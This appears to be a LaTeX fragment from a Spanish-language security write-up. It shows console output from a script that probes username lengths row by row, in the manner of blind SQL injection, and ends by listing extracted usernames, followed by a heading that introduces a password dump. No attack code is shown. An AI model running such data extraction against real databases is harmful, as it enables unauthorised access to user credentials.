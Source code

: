 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{lstlisting}[style=console, basicstyle=\ttfamily\footnotesize]
 [+] Determinando la longitud de 'username' para la fila 4...
 FAIL Probando longitud 1 para la fila 4...
 FAIL Probando longitud 2 para la fila 4...
 FAIL Probando longitud 3 para la fila 4...
 FAIL Probando longitud 4 para la fila 4...
 FAIL Probando longitud 5 para la fila 4...
 FAIL Probando longitud 6 para la fila 4...
 FAIL Probando longitud 7 para la fila 4...
 FAIL Probando longitud 8 para la fila 4...
 FAIL Probando longitud 9 para la fila 4...
 FAIL Probando longitud 10 para la fila 4...
 FAIL Probando longitud 11 para la fila 4...
 FAIL Probando longitud 12 para la fila 4...
 FAIL Probando longitud 13 para la fila 4...
 FAIL Probando longitud 14 para la fila 4...
 FAIL Probando longitud 15 para la fila 4...
 FAIL Probando longitud 16 para la fila 4...
 FAIL Probando longitud 17 para la fila 4...
 FAIL Probando longitud 18 para la fila 4...
 FAIL Probando longitud 19 para la fila 4...
 FAIL Probando longitud 20 para la fila 4...
 FAIL Probando longitud 21 para la fila 4...
 FAIL Probando longitud 22 para la fila 4...
 FAIL Probando longitud 23 para la fila 4...
 FAIL Probando longitud 24 para la fila 4...
 FAIL Probando longitud 25 para la fila 4...
 FAIL Probando longitud 26 para la fila 4...
 FAIL Probando longitud 27 para la fila 4...
 FAIL Probando longitud 28 para la fila 4...
 FAIL Probando longitud 29 para la fila 4...
 FAIL Probando longitud 30 para la fila 4...
 FAIL Probando longitud 31 para la fila 4...
 FAIL Probando longitud 32 para la fila 4...
 FAIL Probando longitud 33 para la fila 4...
 FAIL Probando longitud 34 para la fila 4...
 FAIL Probando longitud 35 para la fila 4...
 FAIL Probando longitud 36 para la fila 4...
 FAIL Probando longitud 37 para la fila 4...
 FAIL Probando longitud 38 para la fila 4...
 FAIL Probando longitud 39 para la fila 4...
 FAIL Probando longitud 40 para la fila 4...
 [!] No se pudo determinar la longitud de 'username' en la fila 4.
 [!] No se encontró longitud para la fila 4. Asumiendo fin de datos.
 
 [+] Resultados completos:
 Usuario 1: admin
 Usuario 2: user1
 Usuario 3: user2
 
 [+] Tiempo de ejecución: 89.42 segundos
\end{lstlisting}

\subsection{Ejecución completa del script dumpeando contraseñas}
A continuación se muestra la ejecución completa del script para extraer las contraseñas de la base de datos.
\end{document}
